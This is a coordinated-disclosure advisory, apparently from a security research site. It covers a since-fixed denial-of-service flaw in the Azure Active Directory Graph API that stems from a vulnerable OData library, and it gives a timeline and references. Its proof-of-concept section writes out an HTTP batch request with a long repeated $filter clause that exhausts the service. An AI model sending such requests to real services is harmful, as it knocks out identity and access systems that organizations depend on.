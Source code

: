 ```yaml
---
layout: vuln
credit: gilm
timeline:
    - type: 'report'
      date: '2018-07-18'
      arg: 'Microsoft Security Response Center'
    - type: 'deadline-extension-offer'
      date: '2018-10-10'
    - type: 'deadline'
      date: '2018-10-15'
    - type: 'vendor-ack'
      date: '2018-10-20'
      arg: 'We were able to reproduce the issue, and a fix has been applied.'
    - type: 'release'
      date: '2018-10-22'


product: Azure Active Directory Graph API
severity: 'high'
alephid: ALEPH-2018003
date: '2018-10-22'
references:
    - src: 'OData Denial of Service Vulnerability'
      url: 'https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8269'
  
title: 'DOS vulnerability in Azure Active Directory Graph API'

---
```

A vulnerability in Azure Active Directory Graph API could allow a remote authenticated attacker to make the service unavailable.

Azure Active Directory is Microsoft’s cloud service that provides identity and access management (IAM) services. It is used by many organizations to authenticate users in Microsoft Azure applications as well as on-premises applications.

Azure Active Directory Graph API Graph API is a REST based interface that provides a programmatic access to this service.

Many applications use this API for the interaction with Azure Active Directory.
If the graph API is unavailable for an organization, all the applications that use it will probably be unavailable as well.

The vulnerability is a result of the dependency this service has in Microsoft.Data.OData library which was vulnerable to remote DOS (See @CVE-2018-8269).
The exploit can be done by sending an OData Batch request that contain a `$filter` parameter with many repetitions of `city+eq+'a'+or+city+eq+'a'+or+city+eq+'a'+ ...`.

## Proof Of Concept ##
Here is an example of such a request.
```http
POST https://graph.windows.net/<org id>/$batch?api-version=1.6 HTTP/1.1
Host: graph.windows.net
Authorization: Bearer XXXXX
content-type: multipart/mixed; boundary=RRR
Content-Length: 216

--RRR
Content-type: application/http
Content-Transfer-Encoding: binary

GET https://graph.windows.net/<org id>/users?$filter=city+eq+'a'+or+city+eq+'a'+or.... HTTP/1.1
accept: application/json;odata=minimalmetadata

--RRR--
```
